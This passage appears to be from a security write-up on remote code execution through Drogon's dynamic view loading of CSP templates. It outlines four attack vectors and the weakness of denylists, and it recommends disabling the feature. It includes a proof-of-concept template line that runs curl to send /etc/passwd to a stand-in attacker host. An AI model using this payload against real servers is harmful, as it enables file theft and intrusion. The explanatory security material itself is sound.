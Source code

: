 ## Attack Vectors

There are countless attack vectors to address.

1. **RCE via Rendered CSP.** First, we'll start by looking at a simple PoC which triggers RCE when the view is rendered.
2. **Bypasses.** We'll survey common functions and tricks to bypass a denylist.
3. **RCE via Init Section.** Here, we'll trigger RCE without rendering the view.
4. **RCE via File Name.** Finally, we'll discuss a harrowing insecurity in the DVL code path.

Not all of these were exploitable in my CTF chals. I selected a few vectors which I thought were interesting.

### 1. RCE via Rendered CSP

Suppose an attacker can write any CSP content in the dynamic views path. In the simplest case where filtering or checking is non-existent, the attacker can execute malicious commands using the usual `system` and `execve` functions found in libc. This allows us to exfiltrate sensitive information and launch reverse shells.

```csp {data-label=Example.csp}
<%c++
    system("curl http://attacker.site --data @/etc/passwd");
%>
```

To trigger this RCE, the application code needs to render the view with `HttpResponse::newHttpViewResponse("Example.csp")`{language=cpp}.

The following diagram shows where code execution occurs along the pipeline. We'll update the diagram as we explore other vectors.

{% image "assets/drogon-dynamic-view-loading-exec-on-render.png", "jw-60 alpha-imgv", "Vanilla RCE with Drogon DVL: we can execute code with `<%c++`." %}

<sup>A simple and direct method of abusing CSPs. Execution occurs when the view is rendered, e.g. by calling `newHttpViewResponse`.</sup>{.caption}

### 2. Bypassing Simple Denylists

If the loophole resides in a few key functions, can't we simply block those functions?

No. This is extremely difficult in a diverse language such as C++. Not only does it have its own language features and standard library; but it also inherits most of C's baggage. There are *many* ways to bypass a denylist. As such, a sufficiently secure denylist will either be exhaustively long or severely limiting.

{% alert "success" %}
This goes to show how denylists (blacklists) are generally discouraged from a security PoV, as it's difficult to account for all methods of bypass. In the case of programming languages, however, allowlists (whitelists) are also difficult to construct, as limiting ourselves to a set of tokens severely constrict the realm of possible CSP programs, and may hinder development.^[Whitelisting a program's {% abbr "AST", "Abstract Syntax Tree" %} could prove effective, but this requires us to first generate an AST — a non-trivial problem.]

The only solution, really, is to not enable DVLs. More on mitigations later.
{% endalert %}
